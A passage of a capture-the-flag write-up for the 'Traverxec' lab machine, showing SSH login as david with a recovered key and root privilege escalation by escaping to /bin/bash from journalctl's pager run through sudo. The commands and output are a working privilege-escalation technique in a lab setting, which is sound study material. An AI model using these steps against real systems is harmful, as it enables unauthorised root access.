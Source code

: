 ## then i try to login with that id_rsa key and founded passphase 

```console
$ ssh -i id_rsa david@10.10.10.165 
Enter passphrase for key 'id_rsa':  
Linux traverxec 4.19.0-6-amd64 #1 SMP Debian 4.19.67-2+deb10u1 (2019-09-20) x86_64 
david@traverxec:~$ ls 
bin  public_www  user.txt
```

## we got access to user david. now it's time for priv escalation.  

## here we have a directory name bin i found a .sh file in this folder i found last line interesting

```console
david@traverxec:~/bin$ cat server-stats.sh 
#!/bin/bash 
 
cat /home/david/bin/server-stats.head 
echo "Load: `/usr/bin/uptime`" 
echo " " 
echo "Open nhttpd sockets: `/usr/bin/ss -H sport = 80 | /usr/bin/wc -l`" 
echo "Files in the docroot: `/usr/bin/find /var/nostromo/htdocs/ | /usr/bin/wc -l`" 
echo " " 
echo "Last 5 journal log lines:" 
/usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service | /usr/bin/cat
```

## then i search on https://gtfobins.github.io/gtfobins/journalctl/ i got sudo entry.

## then i run below command and it open in less mode.

```console
/usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service
```

## then i type 

```console
!/bin/bash
root@traverxec:/home/david/bin#
```

## BOOOMMMM!!! WE GOT ROOT.

![funny](https://c.tenor.com/HRvmHAnn9hAAAAAM/chris-farley.gif)
 
